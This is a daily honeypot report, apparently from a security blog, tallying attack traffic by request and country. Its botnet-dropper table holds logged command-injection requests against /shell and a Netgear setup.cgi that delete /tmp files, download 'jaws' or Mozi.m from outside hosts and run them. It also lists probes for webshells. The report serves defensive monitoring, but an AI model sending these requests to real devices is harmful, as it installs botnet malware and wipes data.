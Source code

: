 ```yaml
---
title: "Report: 2025-07-11 "
date: 2025-07-11
desciption: "Report: 2025-07-11" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-11 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 17 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 647 requests were recorded during the day, originating from 7 different countries, with a peak of 268 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| HK               | Germany            |
| KR               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.222.184.84   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 8.222.204.59   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 8.222.230.103  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 8.216.86.134   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 42.238.140.204 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.238.140.204:54256/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 47.236.41.26   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 120.48.4.132   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|  62 |                     2 | GET /webshell.asp HTTP/1.1                                    |
|  79 |                     1 | GET /odinhttpcall1752192494 HTTP/1.1                          |
|  80 |                     1 | GET /Odin/http/call1752192494 HTTP/1.1                        |
|  82 |                     1 | GET /OdinHttpCall1752192494 HTTP/1.1                          |
|  97 |                     1 | POST /HNAP1/ HTTP/1.1                                         |
| 110 |                     1 | \x00\x0E8\x98\x1F\x8F\x90\xF6\xB3&\xAC\x00\x00\x00\x00\x00    |
| 111 |                     1 | \x00\x0E\x08\x98\x1F\x8F\x90\xF6\xB3&\xAC\x00\x00\x00\x00\x00 |
| 122 |                     1 | GET /webshell.aspx HTTP/1.1                                   |
| 139 |                     1 | GET /odinhttpcall1752226756 HTTP/1.1                          |
| 140 |                     1 | GET /OdinHttpCall1752226756 HTTP/1.1                          |
| 141 |                     1 | GET /Odin/http/call1752226756 HTTP/1.1                        |
| 151 |                     1 | \x00\x0E\x08'\xA2\x0F\xBA7\xA1\xEDv\x00\x00\x00\x00\x00       |
| 152 |                     1 | \x00\x0E8'\xA2\x0F\xBA7\xA1\xEDv\x00\x00\x00\x00\x00          |
| 157 |                     1 | \x00\x0E\x08\xB0l\x18\xA7\x0F<pP\x00\x00\x00\x00\x00          |
| 158 |                     1 | \x00\x0E8\xB0l\x18\xA7\x0F<pP\x00\x00\x00\x00\x00             |
| 159 |                     1 | \x00\x0E\x08\xAC?\xCB\xCC                                     |
| 160 |                     1 | \x00\x0E8\xAC?\xCB\xCC                                        |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   268 | US                 |
|  1 |                    89 | DE                 |
|  2 |                    49 | IN                 |
|  3 |                    25 | GB                 |
|  4 |                    24 | UA                 |
|  5 |                    22 | BG                 |
|  6 |                    21 | NL                 |
|  7 |                    18 | JP                 |
|  8 |                    13 | PL                 |
|  9 |                    11 | SG                 |
| 10 |                    10 | DO                 |
| 11 |                    10 | CN                 |
| 12 |                     8 | PT                 |
| 13 |                     7 | BE                 |
| 14 |                     6 | HU                 |
| 15 |                     6 | ZA                 |
| 16 |                     6 | TR                 |
| 17 |                     5 | SC                 |
| 18 |                     5 | GH                 |
| 19 |                     5 | MU                 |
| 20 |                     4 | IL                 |
| 21 |                     4 | BR                 |
| 22 |                     4 | RO                 |
| 23 |                     4 | CA                 |
| 24 |                     4 | AO                 |
| 25 |                     3 | RU                 |
| 26 |                     2 | HK                 |
| 27 |                     2 | IE                 |
| 28 |                     2 | VN                 |
| 29 |                     2 | SE                 |
| 30 |                     2 | KR                 |
| 31 |                     2 | KZ                 |
| 32 |                     1 | MM                 |
| 33 |                     1 | ES                 |
| 34 |                     1 | IR                 |
| 35 |                     1 | FR                 |

